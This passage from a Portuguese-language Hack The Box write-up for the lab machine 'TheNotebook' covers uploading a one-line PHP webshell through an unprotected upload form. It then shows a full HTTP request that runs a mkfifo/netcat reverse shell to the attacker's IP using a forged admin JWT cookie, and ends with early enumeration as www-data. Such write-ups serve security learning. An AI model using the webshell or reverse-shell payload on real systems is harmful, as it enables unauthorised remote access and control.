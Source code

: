 - Acessando a opção *File Upload* temos uma página simples para envio de arquivos, a qual vamos inspecionar as requisições a partir do Burp Suite

  ![HTB TheNotebook - File Upload](https://i.imgur.com/fgI2wmr.png){: .align-center}

  - Criando um payload PHP para webshell simples com o conte conteúdo `<?php system($_GET['cmd']);?>`, tentei realizar seu upload a partir do formulário e não tive nenhum tipo de bloqueio nesta ação.

  - Após upload, o arquivo foi listado na página e no botão *View* relacionado, o caminho onde poderia acessar o conteúdo enviado.

  ![HTB TheNotebook - Uploaded Files](https://i.imgur.com/aCdIwnN.png){: .align-center}

  - Ao copiar a URI deste arquivo, realizando chamadas simples com o queryString `cmd=id`, conforme previsto no payload criado, pude constatar que poderíamos obter um shell reverso deste modo já que obtemos execução remota de código :smiley:

  ![HTB TheNotebook - Simple WebShell](https://i.imgur.com/eSH3rQY.png){: .align-center}

  - Por fim, para obter um shell reverso em si, iniciei um listener usando o `nc` e executei a chamada abaixo, onde obtive o sucesso esperado :smile:

    ```http
    GET /1e49f8a12603040cc99b2dd39f423b09.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.10.10+4443+>/tmp/f HTTP/1.1
    Host: 10.10.10.230
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMTY6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Impkb2UiLCJlbWFpbCI6Impkb2VAZHVtbXkuY29tIiwiYWRtaW5fY2FwIjoxfQ.WMokYjjMMECoF2UWM2fcMVcR99X34dHXwuj8nXqBlQWOnwC1NdBoO6PD-ZHjAZ5p969Jbf4XnRKZedAAokxvIgG2ymYNV1F8CcDzDfuHlMlk_CiYGvimoJWgvA3S-24KDql2bRrvJgoPbKKjqJ5Ir7mWZF1USGSwsttc9Ff1qniFAWTJ8CXkTLtfR498_rY_uIJfBdvqTbi3C9fWJcnSwjCGROkEGxCYve4cf5rjFvm_D_G5-S8oWkXICYAFp5lMQ288E0qGQp04nD16H1v2YzOROolNDeqMVB2uaI060xjKEA8mv6taa095q7rEqzpzXSj21Uq2-xcZonk0LI1-yg; uuid=d3f32390-d9e4-4eb0-b1a0-788b54fd8278
    Connection: close
    ```

## User flag

Após obter o shell reverso, iniciada enumeração da máquina com a conta `www-data`, a qual é utilizada para execução do webserver. Os seguintes itens foram listados após execução do `linpeas.sh`:

- Usuários com console e suas permissões

  - `noah:x:1000:1000:Noah:/home/noah:/bin/bash`
  - `root:x:0:0:root:/root:/bin/bash`

- Existência da pasta `/var/backups`, inclusive mencionada durante as notas obtidas anteriormente
